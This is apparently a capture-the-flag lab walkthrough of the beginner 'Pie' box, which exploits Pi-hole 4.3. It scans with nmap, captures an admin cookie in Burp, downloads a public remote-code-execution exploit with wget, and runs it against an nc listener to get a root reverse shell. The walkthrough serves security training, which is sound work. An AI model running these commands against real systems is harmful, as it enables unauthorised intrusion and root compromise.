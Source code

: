 In this walkthrough, we'll go over a beginner level box called ***Pie*** on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Pie IP](pieIP.png)

Let's start the scanning process with nmap:
```bash
nmap -A -T4 -p- 172.31.1.26
```
![Pie nmap](pienmap.png)

We can see that the port 80 is open. Upon visiting, we can see that "Pi-hole" is installed:
![Pie Hole](piehole.png)

One thing we can notice is that there is a link to the admin portal. When we click on it, it takes us to the admin portal and we see that the version is ***4.3***:
![Pie Admin](pieadmin.png)
![Pie Version](pieversion.png)

A quick Google search reveals the following exploit [Pie-Hole Exploit](https://packetstormsecurity.com/files/157624/Pi-hole-4.4-Remote-Code-Execution-Privilege-Escalation.html). However, this exploit requires a valid cookie.
Let's send the request to Burp and grab the cookie:
![Pie Burp](pieBurp.png)

We can download the exploit with `wget https://packetstormsecurity.com/files/download/157624/pihole44-execescalate.txt -O exp.py`. Now, let's start a nc listener and run the exploit as follows `python3 exp.py v0ddvbre7i62naseikne4ni6j1 http://172.31.1.26 10.10.0.18 5555`
![Pie Wget](piewget.png)
![Pie Exp](pieexp.png)

We should receive a shell back as root user:

![Pie Root](pieroot.png)
